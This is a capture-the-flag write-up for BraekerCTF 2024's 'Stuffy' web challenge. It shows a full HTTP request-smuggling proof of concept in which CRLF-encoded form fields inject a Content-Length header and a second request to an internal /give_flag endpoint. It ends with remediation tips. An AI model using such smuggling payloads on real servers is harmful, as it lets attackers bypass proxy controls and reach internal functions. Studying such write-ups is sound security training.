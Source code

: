 # description
This challenge is a web challenge written by spipm and part of the Braekerctf ctf. This challenge is a request smuggling. Good reading.

link: https://github.com/spipm/BraekerCTF_2024_public/tree/main

# recon
Let's start by reading the provided code. We can immediately see an SQL injection vulnerability.
![](../images/stuffy1.png)
However, we don't have control over the username. It's chosen from the provided `usernames.txt` file, which is a list of random usernames + 4 random characters.
![](../images/stuffy2.png)

So, SQLi isn't the right path.

Among all the routes, we can notice the endpoint `/give_flag`.
![](../images/stuffy3.png)
This function updates the value of "stuff" with the flag value for a user from the moment the request comes from the server itself.
We can try adding the Headers manually, but it won't work because it's the nginx proxy that modifies the headers.
So, we need to find a function that makes a request and redirect it to `/give_flag`.
Fortunately, `/set_stuff` makes a request to `/update_profile_internal`.

![](../images/stuffy4.png)
Set_stuff first retrieves our username from the cookies and checks that this user exists.
Then it retrieves the stuff variable from the request and verifies that its length is less than 200.
The `special_type` and `special_val` variables are similarly retrieved and cleaned with the `security_filter` function.
`special_type` and `special_val` become Headers, and `stuff` becomes part of the body.

So, we have control over three variables: stuff, special_val, and special_type.
The most likely path is a request smuggling. Let's try.

# POC
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Here, `special_type` and `special_val` form a header that will inform the first request (the end of aaaaaab) = Content-length: 80.
How do we find this number?

 ![](../images/stuffy5.png)
We just need to find the size of this string.
![](../images/stuffy6.png)
Then we create a second request. After refreshing the page, we'll have the flag in our stuff.
![](../images/stuffy7.png)


# remediation
- Ensure that the servers don't accept or process with multiple Content-length or Tranfer-Encoding.
- Use HTTP/2 because it is designed to prevent smuggling attack by clearing delineating the boundaries of HTTP messages.


# That's it!





